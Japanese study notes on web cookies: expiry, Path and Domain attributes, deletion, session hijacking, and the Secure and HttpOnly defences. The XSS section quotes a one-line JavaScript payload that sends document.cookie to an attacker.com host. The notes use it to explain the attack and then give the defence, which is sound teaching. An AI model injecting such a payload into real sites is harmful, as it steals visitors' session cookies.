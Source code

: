 # Cookieの性質
* Expiers: 使用期限を定めることができる。定めない場合は、セッションがある限り継続する
* Path: Cookieヘッダーにおいてpathに基づく要求を実装できる
  * 例：Path=/docs は/docs, /docs/Web/などにマッチする
  * セキュリティに使ってはいけない
* Domain: Set-Cookie ヘッダよりも広いドメインに対して利用できるcookieを設定できる
  * login.shibaura-it.ac.jp は shibaura-it.ac.jpのドメインに対して設定できる。

# Cookieの有効期間は？
* Websiteは期限切れ（Expire）となる日時を決める事が出来る。これはとても長い期間でもよい。
  * 例：Googleは2007年にcookieの有効期限を「2038年まで」から「2年ごと」に短縮した。(Search Engine Land)
  * Expireを設定しない場合、ブラウザのセッションが続く限り有効となる。
    * ブラウザはセッションを復旧させるために、長く保持する場合がある。

# Cookieを削除する方法
* Cookieを同じ名前かつ同じ有効期限で設定する
* Cookieの値は省略可能
  * `Set-Cookie: key=; Expires=Thu, 01 Jan 1970 00:00:00 GMT'

# Session Hijacking
* HTTPでcookieを送信することは危険である。
  * 攻撃者が平文のcookieを読み取ることができれば、セッションをハイジャックできる。
  * 攻撃者は、攻撃対象から窃取したcookieを自分で正規に取得したように見せかけてサーバに送信できる。
  * その結果、サーバは攻撃者を正規のクライアントとみなしてしまう。

## Session Hijacking 対策
* `Secure`属性を付与して、暗号化されていないHTTP接続でCookieが送信されることを防ぐ  
  `Set-Cookie: key=value; Secure`
* より良い対策：HTTPSをWebサイト全体で利用する

# Cross Site Scripting (XXS) を用いたSession Hijacking
* XSS脆弱性があるWebサイトとは
  * 攻撃者がWebサイトに悪意のあるコードを埋め込む
  * この時点で攻撃者はWebサイト訪問者（クライアント）の訪問したWebサイトのcookieを抜き出すことが出来る  
    `new Image().src = 'https://attacker.com/steal?cookie=' + document.cookie`

# Protect cookikes from XSS
* HttpOnly属性を付与することで、Javascriptでcookieを読むことが出来なくなる。  
  * `Set-Cookie: key=value; Secure; HttpOnly`

# Cookieで設定したpathのバイパス
* CookieのPathをセキュリティ強化目的に使わない
  * Pathは同一のオリジンからの不正なcookieの読み込みをここでいう同一のオリジンとは`二つのページのプロトコル、ポート番号 (もしあれば)、ホストが等しい場合、両者のページは同じオリジンです。これは「スキーム/ホスト/ポート番号のタプル」または時に単に「タプル」として参照されます`(出所:[Mozilla.org](https://developer.mozilla.org/ja/docs/Web/Security/Same-origin_policy))
